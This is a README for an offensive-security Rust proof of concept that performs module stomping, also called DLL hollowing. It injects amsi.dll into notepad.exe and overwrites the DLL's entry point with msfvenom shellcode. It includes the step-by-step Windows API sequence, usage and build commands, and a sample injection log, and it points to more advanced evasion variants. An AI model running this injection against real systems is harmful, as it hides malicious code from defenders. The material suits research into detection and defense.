 # Module Stomping / Module Overloading / DLL Hollowing

A basic/simple PoC in Rust

## Description

Module stomping injects a Microsoft-signed DLL (e.g amsi.dll) using a classic DLL Injection technique that uses as shown here: [Classic DLL Injection in Rust](https://github.com/memN0ps/arsenal-rs/tree/main/dll_injector_classic-rs). It will then read the `AddressOfEntryPoint` of the injected DLL from the target process and overwrite the content with shellcode.

In this example we use the following steps to perfrom a classic DLL Injection of `amsi.dll` inside `notepad.exe` and then inject our shellcode inside `amsi.dll's` entry point:

* `OpenProcess` - Open a handle to the target process with `PROCESS_ALL_ACCESS`
* `VirtualAllocEx` - Allocate memory for `amsi.dll` full path
* `WriteProcessMemory` - Write the DLL path to the target process memory
* `GetModuleHandleA` - Get a handle to `kernel32.dll`
* `GetProcAddress` - Get the address of `LoadLibraryA`
* `CreateRemoteThread` - Create a thread in the target process

We can now inject our shellcode into the target process

* Get the module (amsi.dll) base address from the target process (notepad.exe) that we just injected
* `ReadProcessMemory` - To read the the DOS and NT headers to get the `AddressOfEntryPoint` of `asmi.dll` in the target process (notepad.exe)
* `WriteProcessMemory` - To overwrite the `AddressOfEntryPoint` content with our shellcode
* `CreateRemoteThread`- Create a thread to run the contents of our shellcode inside `amsi.dll` that is inside `notepad.exe` in this example.

Microsoft Signed DLL
```
PS C:\Users\memn0ps\Documents\GitHub\arsenal-rs\module_stomping-rs\target\release> sigcheck C:\Windows\System32\amsi.dll

Sigcheck v2.90 - File version and signature viewer
Copyright (C) 2004-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

c:\windows\system32\amsi.dll:
        Verified:       Signed
        Signing date:   1:41 PM 9/11/2022
        Publisher:      Microsoft Windows
        Company:        Microsoft Corporation
        Description:    Anti-Malware Scan Interface
        Product:        Microsoft« Windows« Operating System
        Prod version:   10.0.19041.2075
        File version:   10.0.19041.2075 (WinBuild.160101.0800)
        MachineType:    64-bit
```

Process Monitor's Load Image event shows that `amsi.dll` was loaded.

![Process Monitor](./procmon.png)

Process Explorer shows that `amsi.dll` was loaded too and we can see that our shellcode was executed from the `MessageBoxA` pop-up, which was generated by `msfvenom -p windows/x64/messagebox -f rust`

![Process Monitor](./injection.png)

We can look at `notepad.exe` threads that are running, which shows that thread `9616` with the start address of `Amsi!AmsiUacScan+0xabe0`.

![Process Monitor](./thread.png)


We can inspect this memory location in more detail with `Windbg`. The memory location resolves to `Amsi!DLLMainCRTStartup` and the bytes located in this memory location contains our shellcode.

![Process Monitor](./windbg.png)

## Usage

```
.\module_stomping-rs.exe <process> <full dll path> <dll name>
```

## Example

Build

```
cargo build --release
```

Enable logging for debugging

```
$env:RUST_LOG="debug"
```

Inject amsi.dll
```
PS C:\Users\memn0ps\Documents\GitHub\arsenal-rs\module_stomping-rs\target\release> .\module_stomping-rs.exe notepad.exe C:\Windows\System32\amsi.dll amsi.dll

[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Process: notepad.exe
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Path: C:\Windows\System32\amsi.dll
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Allocated Memory: 0x202d42c0000
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Kernel32 Address: 0x7ffa6a510000
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] LoadLibraryA address: 0x7ffa6a5304f0
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] C:\Windows\System32\amsi.dll DLL Injection Complete!
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Module Base: 0x7ffa5a6d0000
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Remote Buffer Length: 0x148
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] Bytes Read: 328
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] IMAGE_DOS_HEADER: 0x000002a5c4144b30
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] IMAGE_NT_HEADERS: 0x000002a5c4144c30
[2022-11-07T23:12:34Z INFO  module_stomping_rs] [+] AddressOfEntryPoint: 0x7ffa5a6de820
PS C:\Users\memn0ps\Documents\GitHub\arsenal-rs\module_stomping-rs\target\release>
```

## Note

A more advanced version of this can be found here https://github.com/boku7/Ninja_UUID_Runner by Bobby Cooke ([@0xBoku](https://twitter.com/0xBoku)), which mixes up different process injection techniques for evasion.


## References and Credits

* https://www.ired.team/offensive-security/code-injection-process-injection/modulestomping-dll-hollowing-shellcode-injection
* https://thewover.github.io/Dynamic-Invoke/
* https://github.com/hasherezade/module_overloading
* https://www.forrest-orr.net/post/malicious-memory-artifacts-part-i-dll-hollowing
* https://williamknowles.io/living-dangerously-with-module-stomping-leveraging-code-coverage-analysis-for-injecting-into-legitimately-loaded-dlls/
* https://github.com/boku7/Ninja_UUID_Runner
* https://blog.f-secure.com/hiding-malicious-code-with-module-stomping/
